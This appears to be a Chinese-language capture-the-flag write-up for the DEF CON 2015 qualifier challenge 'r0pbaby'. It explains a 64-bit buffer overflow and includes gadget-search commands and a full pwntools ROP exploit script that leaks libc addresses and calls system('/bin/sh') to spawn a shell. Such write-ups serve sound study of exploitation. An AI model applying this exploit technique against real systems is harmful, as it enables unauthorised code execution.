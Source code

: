 ```yaml
---
title: Defcon-2015-Qualifier-r0pbaby
date: 2018-03-17 18:11:32
draft: false
---
```

64位需要rdi传参，有PIE保护不能使用程序中的gadget，此处可以从libc中找   
   
buf的大小是8，会造成缓冲区溢出   
解题思路  
1.找到一个gadget RDI  
2.找到 `/bin/sh`地址   
3.找到 `system` 函数地址  
查找 gadget   
`ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --only "pop|ret"`  
查找 /bin/sh 字符串  
`strings -a -tx /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"`


```
from pwn import *
elf = ELF('r0pbaby')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
io = process('./r0pbaby')
sh = next(libc.search('/bin/sh'))
sys_offset = libc.symbols['system']
rdi_offset = 0x000000000002144f

def getFun(fun):
    io.recvuntil("4) Exit\n:")
    io.sendline('2')
    io.recvuntil("Enter symbol:")
    io.sendline(fun)
    msg = io.recvuntil("4) Exit\n: ")
    offset = msg.find(":")
    offset2 = msg.find("\n")
    addr = msg[offset+2:offset2]
    return long(addr,16)

sys_addr = getFun('system') 
sh_addr = sys_addr-sys_offset + sh 
rdi_addr = sys_addr - sys_offset+rdi_offset

payload = 'a'*8+p64(rdi_addr)+p64(sh_addr)+p64(sys_addr)
io.recv()
io.sendline('3')
io.recv()
io.sendline(str(len(payload)))
io.sendline(payload)
io.recvuntil("Bad choice.\n")   
io.interactive()
```
总结：简单的调用 system + “bin/sh” 通过寄存器 gadget “pop rdi;ret “传参
